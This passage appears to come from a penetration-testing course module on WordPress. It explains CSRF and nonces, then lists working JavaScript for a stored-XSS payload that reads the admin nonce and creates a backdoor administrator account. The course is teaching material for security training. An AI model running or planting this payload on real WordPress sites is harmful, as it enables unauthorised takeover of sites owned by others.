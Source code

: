 > Listing 26 - CSRF example attack

In the above example, the URL link is pointing to a Fake Crypto Bank website API, which performs a bitcoin transfer to the attacker account. If this link was embedded into the HTML code of an email, the user would be only able to see the link description, but not the actual HTTP resource it is pointing to. This attack would be successful if the user is already logged in with a valid session on the same website.

In our case, by including and checking the pseudo-random nonce, WordPress prevents this kind of attack, since an attacker could not have prior knowledge of the token. However, as we'll soon explain, the nonce won't be an obstacle for the stored XSS vulnerability we discovered in the plugin.

As mentioned, to perform any administrative action, we need to first gather the nonce. We can accomplish this using the following JavaScript function:

```
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```

> Listing 27 - Gathering WordPress Nonce

This function performs a new HTTP request towards the **/wp-admin/user-new.php** URL and saves the nonce value found in the HTTP response based on the regular expression. The regex pattern matches any alphanumeric value contained between the string _/ser" value="_ and double quotes.

Now that we've dynamically retrieved the nonce, we can craft the main function responsible for creating the new admin user.

```
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

> Listing 28 - Creating a New WordPress Administrator Account

Highlighted in this function is the new backdoored admin account, just after the nonce we obtained previously. If our attack succeeds, we'll be able to gain administrative access to the entire WordPress installation.

To ensure that our JavaScript payload will be handled correctly by Burp and the target application, we need to first minify it, then encode it.

To minify our attack code into a one-liner, we can navigate to [_JS Compress_](https://jscompress.com/).

![Figure 30: Minifying the XSS attack code](https://static.offsec.com/offsec-courses/PEN-200/imgs/webintro/2a2f4dbcc913552bb7d442fa94655ba3-xss6.png)

Figure 30: Minifying the XSS attack code
